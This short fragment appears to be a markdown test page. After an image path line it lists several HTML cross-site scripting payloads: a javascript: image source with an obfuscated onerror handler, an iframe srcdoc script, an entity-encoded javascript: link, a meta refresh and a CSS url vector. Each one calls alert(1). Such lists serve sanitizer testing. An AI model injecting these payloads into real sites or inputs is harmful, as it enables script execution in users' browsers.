 <img src="javascript:alert(1)" title="JavaScript" alt="JavaScript" width="40" height="40" oNerrOr=alert`1`/>
<iframe srcdoc="<script>alert(1)</script>">
<a href="javas&#99;ript:alert(1)">X</a>
<meta http-equiv="refresh" content="0;url=javascript:alert(1)">
<style>*{background:url("javascript:alert(1)")}</style>
# test
